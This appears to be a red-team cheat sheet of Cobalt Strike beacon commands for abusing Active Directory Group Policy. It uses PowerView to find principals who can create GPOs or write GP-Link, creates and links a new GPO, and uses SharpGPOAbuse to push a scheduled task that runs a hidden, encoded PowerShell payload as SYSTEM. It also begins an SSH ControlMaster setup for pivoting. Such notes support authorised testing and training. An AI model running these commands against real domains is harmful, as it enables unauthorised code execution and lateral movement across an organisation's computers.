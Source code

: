 ## GPO

Enumerate SIDs that can create new GPOs

```
# get SID
beacon> powershell-import /tools/PowerSploit/Recon/PowerView.ps1
beacon> powerpick Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=vault,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

# convert SID
beacon> powerpick ConvertFrom-SID S-1-5-21-2765823697-1816233505-1834004910-1706
[...]
```

Enumerate principals that can write to GP-Link

```
beacon> powershell-import /tools/PowerSploit/Recon/PowerView.ps1
beacon> powerpick Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl

# find computers
beacon> powerpick Get-DomainComputer | ? { $_.DistinguishedName -match "OU=1868" -or $_.DistinguishedName -match "OU=5415" } | select DnsHostName
```

Create new GPO

```
# new
beacon> powershell New-GPO -Name 'Likesss' | New-GPLink -Target 'OU=1668,OU=Workstations,DC=vault,DC=io'
[...]

# configure
beacon> execute-assembly /tools/SharpGPOAbuse.exe --AddComputerTask --TaskName "Likesss" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c powershell -nop -w hidden -enc SQBF[...]ACkA" --GPOName "Likesss"
```

### Resources
- https://github.com/FSecureLABS/SharpGPOAbuse

### Linux SSH

#### ControlMaster SSH Pivot

Create the config in `~/.ssh/config` or `/etc/ssh/ssh_config`

```
Host *
    ControlPath ~/.ssh/controlmaster/%r@%h:%p
    ControlMaster auto
    ControlPersist 10m
```
